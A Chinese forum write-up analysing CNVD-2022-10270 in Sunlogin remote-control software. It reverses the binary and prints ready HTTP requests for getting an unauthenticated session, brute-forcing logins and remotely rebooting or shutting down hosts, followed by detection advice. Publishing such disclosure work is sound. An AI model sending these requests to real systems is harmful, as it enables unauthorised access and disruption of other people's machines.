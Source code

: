 #  【漏洞分析】CNVD-2022-10270分析   
原创 吾爱pojie  吾爱破解论坛   2022-09-06 15:41  
  
**作者****论****坛账号：Sp4ce**  
  
0x00 前序  
  
本文主体完成于2022年2月，在内部分享传阅中被意外泄漏导致被大量转发，如今贝锐官方和CNVD均已有响应，因此决定公开分析细节。  
> CNVD：https://www.cnvd.org.cn/flaw/show/CNVD-2022-10270向日葵团队：https://www.oray.com/announcements/affiche/?aid=774向日葵团队强制升级公告：https://www.oray.com/announcements/affiche/?aid=793  
  
# 0x01 程序详情  
  
本文测试程序版本为11.0.0.33162，官网目前只开放12.5版本，  
但是可以遍历下载ID进行下载  
【已失效】  
  
  
向日葵为C++编写，使用UPX3.X加壳故此分析前需要进行脱壳处理（github上有UPX项目，可以直接脱）  
  
此外向日葵在启动的时候会监听0端口，在Windows中监听0端口会随机监听一个动态高位端口并记录在日志中，（可使用netsh int ipv4 show dynamicport tcp  
查看起始端口），具体在sub_140E0AAE8  
可看到  
  
# 0x02 根据日志找session  
  
根据网上流传的视频，社会孙在发布的视频中有一段疑似session的字符串  
  
  
根据这段疑似session  
的关键字在向日葵一次正常远程的日志中找到了关键字CID  
  
随后载入IDA，对CID关键字进行搜索  
  
找到3个函数存在CID关键字字符串sub_140E20938  
、sub_140E1C954  
、sub_140E1A1F4  
往上跟发现分别对应接口/cgi-bin/rpc  
和/cgi-bin/login.cgi  
  
分析后发现在函数sub_140E1C954  
对应接口功能/cgi-bin/rpc  
中，传入如下参数即可在未授权的情况下获取到有效session  
```
POST /cgi-bin/rpc HTTP/1.1
Host: 10.100.100.5:49670
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: SLRC/11.0.0.33162 (Windows,x64)Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 62

action=verify-haras
```  
  
  
  
在知道被控端的验证码和识别码的情况下传入如下参数可获取到session  
  
在知道主机的帐密的情况下通过/cgi-bin/login.cgi  
接口传入如下参数可获取到session并返回设备的公网、内网地址等信息，该接口同时可用作暴力破解  
  
```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 10.100.100.5:49670
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

act=login&username=admin&password=admin&hostname=a
```  
# 0x03 RCE  
  
  
  
ping命令拼接导致  
  
# 0x04 远程重启  
```
GET /control.cgi?__mode=control&act=reboot HTTP/1.1
Host: 10.100.100.5:49934
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Cookie: CID=lzKrTiUH5Z7GagluSTocMmHBAF9Pxz75
Accept-Language: zh-CN,zh;q=0.9

```  
# 0x05 远程关机  
```
GET /control.cgi?__mode=control&act=shutdown HTTP/1.1
Host: 10.100.100.5:49934
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Cookie: CID=lzKrTiUH5Z7GagluSTocMmHBAF9Pxz75
Accept-Language: zh-CN,zh;q=0.9

```  
# 0x07检测手段  
## 主机层  
  
主机层可通过检测向日葵连接日志中是否存在ping、../等关键字进行检查是否被入侵  
  
  
帐号暴力破解可通过检查事件查看器中的类似日志进行排查  
  
## 网络层  
1. 检查高位端口流量中是否存在向日葵指纹特征  
  
1. 检查流量中的URI是否存在类似ping../、nslookup../等且Header中包含"Cookie: CID关键字  
# 后记  
  
向日葵作为国民级远控软件，官方在本次事件中响应迅速，产品迭代速度值得称赞。在2月本文被外泄且被大量转发后，zUotTe0师傅对文中提到的问题进行了进一步分析、解答，在此表示感谢。****  
  
**-官方论坛**  
  
www.52pojie.cn  
  
**--推荐给朋友**  
  
公众微信号：吾爱破解论坛  
  
或搜微信号：pojie_52  
